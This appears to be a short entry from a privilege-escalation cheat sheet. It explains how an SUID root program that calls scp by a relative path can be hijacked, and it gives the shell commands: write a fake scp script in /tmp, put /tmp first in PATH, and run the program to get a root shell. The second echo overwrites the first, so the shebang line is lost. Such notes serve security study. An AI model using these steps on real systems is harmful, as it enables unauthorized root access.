 # Relative Path in SUID Program

```
-rwsr-xr-x  1 root root  10K 1970-01-01 00:01 secureprogram
$ cat secureprogram

scp -r file/secured/* 10.10.10.10:/var/www/......
```

Using relative path for program! It should be as /usr/bin/scp. That is, we can manipulate it by adding the path variable.

```
$ cd /tmp

$ echo "#\!/bin/sh" > scp
$ echo "/bin/bash -p" > scp

$ export PATH=/tmp:$PATH

$ secureprogram
```
